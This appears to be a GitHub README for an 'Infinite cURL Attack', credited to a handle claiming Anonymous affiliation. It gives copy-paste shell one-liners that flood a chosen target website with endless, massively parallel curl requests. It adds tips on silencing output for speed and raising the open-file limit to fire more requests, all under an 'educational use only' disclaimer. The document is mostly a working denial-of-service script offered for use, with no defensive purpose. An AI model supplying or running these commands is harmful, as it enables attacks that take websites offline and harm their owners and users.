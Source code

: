 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this (**the following is my preference**):  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -s -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com" > /dev/null; done;
```  

**Note 1:** Reduce the numbers from **1000000000** if your system crashes. It's the number of parallel requests fired (opened files allowed) at once. Or check **Note 2**.  
**Note 2:** To bypass **open file limit (No file descriptors available)** run the following code before running the above code (put some more Zeros if you want to, at your own risk :P) ...  
```
ulimit -n 10000000000
```
or try out the solutions in  
**https://epi052.github.io/feroxbuster-docs/docs/faq/no-file-descriptors/**  
**https://www.cyberciti.biz/faq/linux-increase-the-maximum-number-of-open-files/**  
**https://discussions.apple.com/thread/2206502**  
etc.  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
